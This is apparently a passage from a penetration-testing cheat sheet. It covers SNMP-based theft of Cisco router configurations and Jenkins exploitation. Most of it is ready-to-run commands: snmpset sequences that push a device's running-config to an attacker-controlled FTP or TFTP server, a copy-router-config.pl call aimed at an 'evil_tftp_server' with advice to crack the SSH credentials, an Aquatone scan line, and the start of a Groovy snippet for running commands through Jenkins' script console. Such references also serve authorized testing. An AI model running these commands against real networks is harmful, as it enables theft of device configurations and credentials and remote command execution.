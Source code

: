 - Set up FTP server and FTP using a SNMP write string. Similar method for TFTP (which doesn't try to auth but could be blocked). Check the blog for TFTP instructions. Remember to have a 777 file in the TFTP root you're using.  
  ```
  # Install FTP server.
  # See https://www.ciscozine.com/how-to-save-configurations-using-snmp/
  sudo apt-get install pure-ftpd
  sudo adduser ftpman --home /tmp/
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.2.1337 i 2
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.3.1337 i 4
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.4.1337 i 1
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.5.1337 a 10.10.10.10
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.6.1337 s running.config
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.7.1337 s ftpman
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.8.1337 s ftpmanPASS
  snmpwalk -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1
  snmpwalk -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1
  snmpset -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1.14.1337 i 2
  snmpwalk -c 'everyvillainislemons' -v 2c 10.113.163.1 1.3.6.1.4.1.9.9.96.1.1.1.1
  ```

- Do it over TFTP:
  ```
  # 336 is the ID, it lasts 5 minutes. You can clear it if needed.
  snmpset -c [snmp-community-string] -v 2c [ip-device] 1.3.6.1.4.1.9.9.96.1.1.1.1.2.336 i 1
  snmpset -c [snmp-community-string] -v 2c [ip-device] 1.3.6.1.4.1.9.9.96.1.1.1.1.3.336 i 4
  snmpset -c [snmp-community-string] -v 2c [ip-device] 1.3.6.1.4.1.9.9.96.1.1.1.1.4.336 i 1
  snmpset -c [snmp-community-string] -v 2c [ip-device] 1.3.6.1.4.1.9.9.96.1.1.1.1.5.336 a [ip-tftp-server]
  snmpset -c [snmp-community-string] -v 2c [ip-device] 1.3.6.1.4.1.9.9.96.1.1.1.1.6.336 s [file-name]   # don't forget touch && chmod 777
  snmpset -c [snmp-community-string] -v 2c [ip-device] 1.3.6.1.4.1.9.9.96.1.1.1.1.14.336 i 1
  ```

- `muts` wrote a [quick perl script to copy over the config](https://tools.kali.org/information-gathering/copy-router-config), native to Kali:
  ```
  copy-router-config.pl target_router evil_tftp_server private_snmp_string
  # Modify the file appropriately, crack the SSH creds, etc.
  # Check the similar merge-router-config.pl
  ```

## TCP/80 HTTP
Includes web services (not just port 80)
- Aquatone
  - Pipe in a text file, and specify servers. Out files will be in cwd
  ```
  cat hosts.txt | /opt/aquatone -out tools/aquatone -ports 80,81,280,300,443,591,593,623,664,777,808,832,981,1010,1183,1184,1311,2082,2087,2095,2381,2480,3000,3128,3333,4035,4036,4243,4443,4567,4711,4848,4993,5000,5104,5108,5554,5800,5801,5802,5803,5988,5989,6543,6788,7000,7004,7072,7396,7443,7474,7627,8000,8001,8008,8080,8014,8042,8069,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8444,8445,8500,8765,8834,8880,8888,8983,9000,9043,9060,9090,9091,9200,9443,9800,9981,12443,1680,16992,16993,18091,20002,20720,28017
  ```
- Check for Jenkins. Typically runs on TCP/8080
  - Typically runs build scripts etc as SYSTEM
  - Auth can bind to AD or be local. Check `/asynchPeople/` for a list of users anonymously.
  - To run commands:
    - If you're an admin users, you can access the script console directly at `/script/`
    ```
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = '[INSERT COMMAND]'.execute()
